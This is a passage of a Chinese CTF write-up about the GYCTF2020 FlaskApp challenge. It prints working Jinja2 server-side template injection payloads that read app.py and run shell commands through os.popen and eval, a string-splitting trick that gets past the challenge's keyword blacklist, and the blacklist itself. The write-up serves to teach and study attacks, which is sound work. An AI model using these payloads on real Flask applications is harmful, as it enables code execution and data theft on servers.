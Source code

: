 ```python
```
![](/bmth_blog/images/pasted-165.png)


参考：
[刷题[CSCCTF 2019 Qual]FlaskLight](https://yanmymickey.github.io/2020/04/15/CTFwp/%5BCSCCTF%202019%20Qual%5DFlaskLight/)
[[CSCCTF 2019 Qual]FlaskLight](https://www.cnblogs.com/ersuani/p/13896200.html)
## [GYCTF2020]FlaskApp

看wp的同时学习一下知识点：
[从零学习flask模板注入](https://www.freebuf.com/column/187845.html)
[浅析SSTI(python沙盒绕过)](https://bbs.ichunqiu.com/thread-47685-1-1.html)
[Flask debug 模式 PIN 码生成机制安全性研究笔记](https://www.cnblogs.com/HacTF/p/8160076.html)

**hint:失败的意思就是，要让程序运行报错,报错后会暴露源码。**
base64decode在不会解析的时候就会报错
![](https://img-blog.csdnimg.cn/20200414124137347.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)

首先读源码：

```python
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('app.py','r').read() }}{% endif %}{% endfor %}
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls /').read()")}}{% endif %}{% endfor %}
```

![](https://img-blog.csdnimg.cn/20200414124708451.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
传入，在解密处得到源码
![](https://img-blog.csdnimg.cn/2020041412475758.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)

```java
def waf(str):
    black_list = [&#34;flag&#34;,&#34;os&#34;,&#34;system&#34;,&#34;popen&#34;,&#34;import&#34;,&#34;eval&#34;,&#34;chr&#34;,&#34;request&#34;,
                  &#34;subprocess&#34;,&#34;commands&#34;,&#34;socket&#34;,&#34;hex&#34;,&#34;base64&#34;,&#34;*&#34;,&#34;?&#34;]
    for x in black_list :
        if x in str.lower() :
            return 1
```

**非预期：**
发现是flag和os等被过滤，师傅利用的字符串拼接
```python
{{''.__class__.__bases__[0].__subclasses__()[75].__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').listdir('/')}}
```
![](https://img-blog.csdnimg.cn/20200414152340128.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
